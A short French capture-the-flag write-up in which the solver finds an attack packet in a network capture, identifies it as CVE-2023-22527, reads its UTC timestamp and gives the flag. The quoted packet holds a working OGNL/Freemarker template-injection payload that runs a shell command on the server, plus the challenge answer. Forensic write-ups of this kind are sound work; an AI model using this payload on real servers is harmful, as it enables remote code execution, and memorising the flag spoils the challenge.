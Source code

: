 
![bibliotheque_3](../../../../attachements/bibliotheque_3.png)

![chall](../../../../attachements/bibliotheque_chall.pcapng)
## Résolution

On trouve notre attaque à la frame 309 : 
```
)6PVÀEJÑ¼@?ÛÀ¨À¨Ø´®±w³ÁÏö²s
bE?üsVlabel=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().getWriter().write((new freemarker.template.utility.Execute()).exec({"ls"}))
```

Une recherche google dessus et on tombe sur  notre CVE : `CVE-2023-22527`
On récupère l’heure de reception du paquet en UTC : `Aug 15, 2024 22:51:08.931436000 UTC`

Et on modifie tout ça pour arrive au format attendu.


>[!question]- Spoiler du flag
> OPENNC{CVE-2023-22527_2024-08-15_22:51:08}

